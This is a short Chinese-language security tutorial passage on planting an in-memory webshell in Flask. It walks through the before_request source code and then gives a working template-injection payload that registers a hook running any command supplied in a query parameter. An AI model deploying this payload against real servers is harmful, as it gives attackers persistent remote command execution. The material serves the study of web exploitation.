 ![5](/medias/flask-shell/5.png)

```python
    @setupmethod
    def before_request(self, f: BeforeRequestCallable) -> BeforeRequestCallable:
        """
        在每次请求之前，调用自定义的函数f
        """
        self.before_request_funcs.setdefault(None, []).append(f)
        return f
```

在这里，如果 None 键不存在，就初始化为一个空列表。如果存在传入的函数 f，则通过调用`before_request_funcs.setdefault(None, []).append(f)`函数把自定义函数f添加到before_request_funcs 字典中，在每次请求处理之前调用这个函数

重点：通过调用`before_request_funcs.setdefault(None, []).append(f)`函数添加了自定义函数

如果可以打入自定义的后门函数，那么每次请求前都会触发来执行命令

```python
lambda :__import__('os').popen('whoami').read()
```

内存马payload

```python
{{url_for.__globals__.__builtins__['eval']("sys.modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda: __import__('os').popen(__import__('flask').request.args.get('a')).read())")}}&a=whoami
```
